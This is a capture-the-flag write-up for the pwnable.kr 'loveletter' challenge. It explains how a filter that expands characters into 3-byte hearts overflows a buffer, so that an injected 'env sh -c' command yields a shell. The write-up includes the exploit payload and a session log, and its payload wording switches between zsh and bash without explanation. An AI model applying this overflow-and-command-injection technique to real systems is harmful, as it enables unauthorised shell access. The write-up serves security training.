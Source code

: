 ## 1. Challenge

> At the end... all that matters is love.  
> author: jiwon choi  
>   
> ssh loveletter@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and you will see 2 files, `loveletter` and `readme`.

readme
```
connect to port 9034 (nc 0 9034). the 'loveletter' binary will be executed under loveletter_pwn privilege.
pwn it and get a shell and read the flag.
```

Fine, let's download the binary file and drop it into IDA.

The exploit is in function `protect()`. `protect()` will check the string you input and replace every one of the following chars 

```
#&;`'"|*?~<>^()[]{}$\,
```

by `♥` which is 3 bytes long. However, `protect()` does not check buffer length, so it can makes the 256-bytes-long buffer in `main()` overflowed. What worse, `protect()` uses `memcpy()` to join strings and causes null-terminator `\x00` missing. 

![](pic1.png)

How could we get shell?

Well, we can overflow `buffer` and make `prolog_len` be `1` so only the first char of `prolog` will be copied into `loveletter` which is `e`. 

Then `buffer` will be copied into `loveletter`. We can let `buffer` be 

```
nv sh -c /bin/zsh .....
```

so `loveletter` will be 

```
env sh -c bash .....
```

`.....` can be anything. It won't prevent shell being launched.

In `solve.py`, I send

```
nv sh -c bash AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...AAA|\x01
```

where the number of char `A` is `(256 - len('nv sh -c /bin/zsh ') - len('|\x00') - 1) = 239` and it works fine.

```
loveletter@ubuntu:~$ mkdir /tmp/solve2
loveletter@ubuntu:~$ cd /tmp/solve2
loveletter@ubuntu:/tmp/solve2$ vim solve.py
loveletter@ubuntu:/tmp/solve2$ chmod +x solve.py
loveletter@ubuntu:/tmp/solve2$ ./solve.py
[+] Opening connection to localhost on port 9034: Done
[*] Switching to interactive mode
$ ls
flag
log
loveletter
super.pl
```

